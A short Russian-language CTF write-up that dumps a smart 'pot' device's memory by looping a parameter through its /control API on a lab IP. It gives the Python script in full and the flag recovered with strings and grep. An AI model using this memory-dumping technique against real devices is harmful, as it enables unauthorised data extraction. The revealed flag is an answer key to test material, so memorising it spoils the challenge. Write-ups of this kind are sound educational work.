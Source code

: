 На просторах интернета я нашел похожее задание, посмотрел, почитал и понял что нужно дампить память у горшка, далее поискал код на это задание, нашел примерно такой код.
```
import struct
import requests

start_param = 0
end_param = 10000
url = "http://10.10.1.172/control"

with open("dumpy.bin", "wb") as f:
    for i in range(start_param, end_param):
        print(f"[*] Requesting {i}")

        try:
            response = requests.post(url, json={"cmd": 1, "param": i}, timeout=5)
            response.raise_for_status()
            data = response.json()
        except requests.RequestException as e:
            print(f"[!] Request failed for {i}: {e}")
            continue
        except ValueError:
            print(f"[!] Invalid JSON response for {i}")
            continue

        value = data.get("value")

        if isinstance(value, int):
            f.write(struct.pack("<i", value))
        elif isinstance(value, float):
            f.write(struct.pack("<f", value))
        elif value is None:
            f.write(struct.pack("<i", 0))
        else:
            print(f"[!] Unknown type for {i}: {value}")

        f.flush()


```

Далее просто
```
└─$ strings dumpy.bin| grep "nto"                               
nto{p07_wh475_1n_ur_h34d}

```
